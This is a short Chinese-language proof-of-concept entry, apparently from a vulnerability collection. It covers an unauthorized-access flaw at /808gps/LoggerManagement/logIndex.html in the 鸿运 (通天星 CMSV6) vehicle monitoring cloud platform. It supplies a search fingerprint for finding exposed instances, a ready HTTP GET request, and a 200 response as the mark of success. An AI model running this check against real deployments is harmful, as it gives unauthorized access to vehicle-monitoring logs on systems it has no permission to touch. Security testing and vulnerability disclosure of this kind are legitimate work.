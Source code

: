 ﻿# 鸿运(通天星CMSV6车载)主动安全监控云平台LoggerManagement logIndex.html 未授权访问漏洞

> 更新时间：2024-04-13

> 漏洞编号：

> 漏洞说明：鸿运主动安全监控云平台实现对计算资源、存储资源、网络资源、云应用服务进行7*24小时全时区、多地域、全方位、立体式、智能化的IT运维监控，保障IT系统安全、稳定、可靠运行。鸿运(通天星CMSV6车载)主动安全监控云平台LoggerManagement/logIndex.html存在未授权访问漏洞。

> 漏洞特征：body="./open/webApi.html"||body="/808gps/"

> 验证脚本：HTTP

```
GET /808gps/LoggerManagement/logIndex.html HTTP/1.1
Accept: */*
Connection: Keep-Alive
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：

> 验证文件来源：鸿运(通天星CMSV6车载)主动安全监控云平台LoggerManagement logIndex.html 未授权访问漏洞.poc

